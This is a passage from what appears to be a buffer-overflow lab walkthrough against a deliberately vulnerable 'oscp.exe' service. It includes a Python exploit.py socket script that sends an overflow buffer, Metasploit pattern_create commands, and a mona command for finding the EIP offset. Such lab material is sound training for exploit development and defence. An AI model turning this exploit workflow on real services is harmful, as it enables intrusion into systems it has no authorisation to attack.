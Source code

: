 Run the fuzzer.py script using python: `python3 fuzzer.py`

## Crash Replication & Controlling EIP

Create another file on your Kali box called exploit.py with the following contents:

```
import socket

ip = "10.10.172.143"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

\


Run the following command to generate a cyclic pattern of a length 400 bytes longer that the string that crashed the server (change the -l value to this):

`/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l X+400`

or you can use this one

Msf-pattern\_create -l 800

Copy the output and place it into the payload variable of the exploit.py script.

On Windows, in Immunity Debugger, re-open the oscp.exe again using the same method as before, and click the red play icon to get it running. You will have to do this prior to each time we run the exploit.py (which we will run multiple times with incremental modifications).

The script should crash the oscp.exe server again. This time, in Immunity Debugger, in the command input box at the bottom of the screen, run the following mona command, changing the distance to the same length as the pattern you created:

`!mona findmsp -distance 600`
